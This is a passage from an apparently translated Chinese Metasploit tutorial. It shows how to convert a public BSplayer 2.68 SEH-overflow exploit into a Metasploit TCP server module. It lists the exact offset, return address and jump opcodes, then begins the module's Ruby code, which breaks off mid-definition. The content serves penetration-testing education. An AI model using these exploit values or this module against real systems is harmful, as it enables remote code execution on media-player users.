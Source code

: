在接下来的部分中，我们将看到如何将基于浏览器或 TCP 服务器的利用导入 Metasploit。

在应用程序测试或渗透测试期间，我们可能会遇到无法解析请求/响应数据并最终崩溃的软件。让我们看一个在解析数据时存在漏洞的应用程序的例子：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/cpl-mtspl-gd/img/7db3f606-a65b-424e-b98c-1170c42baf3e.png)

本例中使用的应用程序是 BSplayer 2.68。我们可以看到我们有一个监听端口`81`的 Python 利用。当用户尝试从 URL 播放视频时，漏洞在解析远程服务器的响应时出现。让我们看看当我们尝试从端口`81`上的监听器中流式传输内容时会发生什么：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/cpl-mtspl-gd/img/cd716a16-ebc1-470d-a30c-e13b7ecf3684.png)

我们可以看到计算器应用程序弹出，这表明利用成功运行。

从以下链接下载 BSplayer 2.68 的 Python 利用：[`www.exploit-db.com/exploits/36477/`](https://www.exploit-db.com/exploits/36477/)。

让我们看一下利用代码，并收集构建 Metasploit 模块所需的基本信息：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/cpl-mtspl-gd/img/b6674a0f-3c2a-4a48-9719-879662dc9dfd.png)

这个利用很简单。然而，利用的作者使用了向后跳转技术来找到由有效载荷传递的 shellcode。这种技术用于对抗空间限制。这里需要注意的另一件事是，作者发送了恶意缓冲区两次来执行有效载荷，这是由于漏洞的性质。让我们尝试在下一节中建立一个表，列出我们转换这个利用为 Metasploit 兼容模块所需的所有数据。

# 收集基本要素

让我们看一下下表，突出显示了所有必要的值及其用法：

| **序列号** | **变量** | **值** |
| --- | --- | --- |
| 1 | 偏移值 | `2048` |
| 2 | 内存中已知包含 POP-POP-RETN 系列指令/P-P-R 地址的位置 | `0x0000583b` |
| 3 | 向后跳转/长跳转以找到 shellcode | `\xe9\x85\xe9\xff\xff` |
| 4 | 短跳转/指向下一个 SEH 帧的指针 | `\xeb\xf9\x90\x90` |

现在我们已经拥有构建 BSplayer 2.68 应用的 Metasploit 模块的所有基本要素。我们可以看到作者在`2048` NOP 之后精确放置了 shellcode。然而，这并不意味着实际的偏移值是`2048`。利用的作者将其放置在 SEH 覆盖之前，因为可能没有空间留给 shellcode。然而，我们将采用这个值作为偏移量，因为我们将按照原始利用的确切过程进行。此外，`\xcc`是一个断点操作码，但在这个利用中，它被用作填充。`jmplong`变量存储了向后跳转到 shellcode，因为存在空间限制。`nseh`变量存储了下一个帧的地址，这只是一个短跳转，正如我们在上一章中讨论的那样。`seh`变量存储了`P/P/R`指令序列的地址。

在这种情况下需要注意的一个重要点是，我们需要目标机器连接到我们的利用服务器，而不是我们试图连接到目标机器。因此，我们的利用服务器应该始终监听传入的连接，并根据请求传递恶意内容。

# 生成 Metasploit 模块

让我们开始在 Metasploit 中编写我们的漏洞的编码部分：

```
class MetasploitModule < Msf::Exploit::Remote 
  Rank = NormalRanking 

  include Msf::Exploit::Remote::TcpServer 

  def initialize(info={}) 
    super(update_info(info, 
      'Name'           => "BsPlayer 2.68 SEH Overflow Exploit", 
      'Description'    => %q{ 
        Here's an example of Server Based Exploit 
      }, 
      'Author'         => [ 'Nipun Jaswal' ], 
      'Platform'       => 'win', 
      'Targets'        => 
        [ 
          [ 'Generic', {'Ret' => 0x0000583b, 'Offset' => 2048} ], 
        ], 
      'Payload'  =>  
```
